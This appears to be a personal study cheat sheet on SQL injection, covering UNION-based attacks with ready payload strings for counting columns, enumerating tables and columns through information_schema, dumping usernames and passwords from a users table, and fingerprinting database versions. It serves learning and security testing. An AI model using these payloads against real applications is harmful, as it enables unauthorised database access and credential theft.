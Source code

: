 # sqlin


#common sql injection attack :

-Retrieving hidden data, where you can modify an SQL query to return additional results.
-Subverting application logic, where you can change a query to interfere with the application's logic.
-UNION attacks, where you can retrieve data from different database tables.
-Examining the database, where you can extract information about the version and structure of the database.
-Blind SQL injection, where the results of a query you control are not returned in the application's responses.



 #For a UNION query to work, two key requirements must be met:

    The individual queries must return the same number of columns.
    The data types in each column must be compatible between the individual queries.



# union attack steps:

-Determining the number of columns required in an SQL injection UNION attack :

  - ' ORDER BY 1-- or  ' ORDER BY 2-- etc 
  - ' UNION SELECT NULL-- or ' UNION SELECT NULL,NULL -- etc (recommended)
  - 
-Finding columns with a useful data type in an SQL injection UNION attack 
  - if the query returns four columns, you would submit:
    - ' UNION SELECT 'a',NULL,NULL,NULL--
    - ' UNION SELECT NULL,'a',NULL,NULL--
    - ' UNION SELECT NULL,NULL,'a',NULL--
    - ' UNION SELECT NULL,NULL,NULL,'a'-- 
  -found name of tables :
  ' UNION  SELECT 'a','a' FROM information_schema.tables --
  -found name of column :
  ' UNION  SELECT  'a','a'  FROM information_schema.columns where table_name='tablename'--
  
  to find name of tables and cloumns in oracle use all_tables , all_tab_columns.
  
 

- Retrieving multiple values within a single column
   - ' UNION SELECT username || '~' || password FROM users-- 
# notes:
  - There is a built-in table on Oracle called dual which can be used for this purpose : ' UNION SELECT NULL FROM DUAL-- (MUST in oracle )
  -  the hash character # can be used to identify a comment 


# Examining the database in SQL injection attacks:
 -Microsoft, MySQL 	SELECT @@version
 -Oracle 	SELECT * FROM v$version
 -PostgreSQL 	SELECT version() 
 
# Listing the contents of the database:
 - SELECT * FROM information_schema.tables 


# Blind SQL injection :
Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. 



